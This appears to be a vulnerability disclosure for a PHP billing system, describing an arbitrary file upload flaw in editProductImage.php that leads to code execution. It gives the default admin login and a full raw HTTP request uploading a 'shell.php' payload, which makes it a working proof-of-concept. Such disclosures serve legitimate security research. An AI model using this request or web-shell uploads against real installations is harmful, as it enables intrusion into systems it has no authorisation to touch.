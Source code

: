 # Billing System Project v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: Fighting

vendors: https://www.sourcecodester.com/php/14831/billing-system-project-php-source-code-free-download.html

The program is built using the xmapp-php8.1 version

Login account: mayurik/rootadmin (Super Admin account)

Vulnerability url: ip/phpinventory/php_action/editProductImage.php?id=1

Loophole location: Billing System Project's editProductImage.php file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /phpinventory/php_action/editProductImage.php?id=1 HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.88/phpinventory/editproduct.php?id=1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------315922493531275
Content-Length: 479

-----------------------------315922493531275
Content-Disposition: form-data; name="old_image"

Mi-11X-Pro-Smart-Phones-491996699-i-1-1200Wx1200H.jpg
-----------------------------315922493531275
Content-Disposition: form-data; name="productImage"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------315922493531275
Content-Disposition: form-data; name="btn"


-----------------------------315922493531275--
```

The files will be uploaded to this directory
![image](https://user-images.githubusercontent.com/54017627/191211139-e42ca006-6bff-4eac-bbce-2b7fceb59f1b.png)



We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/191211240-986446bb-45b4-4cbb-b4ed-1e21be792bd1.png)


